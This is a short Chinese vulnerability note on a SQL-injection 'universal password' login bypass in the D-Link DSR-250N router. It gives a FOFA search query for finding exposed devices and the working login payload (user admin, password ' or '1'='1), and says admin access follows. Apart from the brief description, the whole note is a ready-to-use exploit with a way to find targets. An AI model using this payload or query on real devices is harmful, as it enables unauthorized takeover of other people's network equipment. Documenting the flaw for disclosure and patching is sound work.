 # D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

```
D-Link DSR-250N
```

## FOFA

```
app="D_Link-DSR-250N"
```

## 漏洞复现

登录页面如下

![](./images/202202162222919.png)

```plain
user: admin
pass: ' or '1'='1
```

成功登录后台

![](./images/202202162223338.png)